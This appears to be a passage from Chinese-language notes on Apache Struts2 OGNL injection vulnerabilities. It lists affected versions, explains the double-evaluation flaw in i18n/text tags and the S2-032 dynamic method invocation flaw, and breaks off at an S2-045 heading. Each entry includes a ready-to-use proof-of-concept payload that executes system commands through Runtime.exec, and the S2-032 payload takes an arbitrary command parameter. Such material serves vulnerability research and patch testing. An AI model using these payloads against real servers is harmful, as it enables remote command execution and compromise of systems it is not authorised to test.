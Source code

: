 
### 影响范围 {#影响范围}

Struts 2.0.0 - Struts 2.3.24.1 (except 2.3.20.3)


### 漏洞描述 {#漏洞描述}

Struts2 在解析某些标签时，会对标签的属性值进行二次执行求值，那如果第一次获取到的
值是一个 OGNL 表达式，就会导致表达式执行

比如 i18n 和 text 标签的 name 属性：

```xml
<s:i18n name="%{#request.lan}">xxxx</s:i18n>
<s:text name="%{#request.lan}">xxxx</s:text>
```

攻击者可以在请求的 lan 属性中注入表达式，poc:

```nil
(%23_memberAccess['allowPrivateAccess']=true,%23_memberAccess['allowProtectedAccess']=true,%23_memberAccess['excludedPackageNamePatterns']=%23_memberAccess['acceptProperties'],%23_memberAccess['excludedClasses']=%23_memberAccess['acceptProperties'],%23_memberAccess['allowPackageProtectedAccess']=true,%23_memberAccess['allowStaticMethodAccess']=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()))
```

注入的位置取决于标签的属性从什么地方获取


## S2-032 {#s2-032}


### 影响范围 {#影响范围}

Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)


### 漏洞描述 {#漏洞描述}

在开启了动态方法调用(Dynamic Method Invocation)的情况下，可以使用 `method:<name>`
的方式来调用名字是 `<name>` 的方法，而这个方法名将会进行 OGNL 表达式计算，导致远程命
令执行漏洞

poc:

```nil
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```


## S2-045 {#s2-045}
